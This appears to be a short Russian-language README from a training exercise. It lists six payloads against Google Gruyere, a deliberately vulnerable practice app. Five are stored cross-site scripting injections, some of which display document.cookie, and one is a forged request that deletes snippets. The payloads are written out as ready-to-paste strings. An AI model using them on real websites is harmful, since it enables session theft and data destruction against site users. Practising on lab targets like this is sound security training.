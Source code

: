 # Payloads для gruyere

[100% не рикролл](https://clck.ru/3EMU7t)

## Payload 1

При создании нового сниппета можно написать в нём `<a onmouseover="alert(document.cookie) href='#'">text</a>`, который будет выводит куки при наведении, что позволяет лутать данные.

## Payload 2

При изменении цвета профиля можно задать цвету атрибуты onmouseover `black' onmouseover='alert(682)'`, который при наведении на него будет выводить alert. 

## Payload 3

При изменении профиля можно написать url в icon `https://google-gruyere.appspot.com/509870841862400053734264954502968465848/deletesnippet?index=0 `, который позволяет удалять сниппеты.

## Payload 4

В приват сниппет можно написать любой html тег например `<img src=x onerror=alert('XSS')>`, что выведит alert на странице.

## Payload 5

В изменении иконки профиля можно вставить html тег img `<img%20src="javascript:alert(document.cookie);"></img>` - alert вывелся.

## Payload 6

В изменении профиля можно указать ссылку на homepage, но туда еще можно картинку запихнуть умом `<img src=x onerror=alert(1)>` и за место вывода алерта(1) можно вывести куки файлы или что еще похуже.
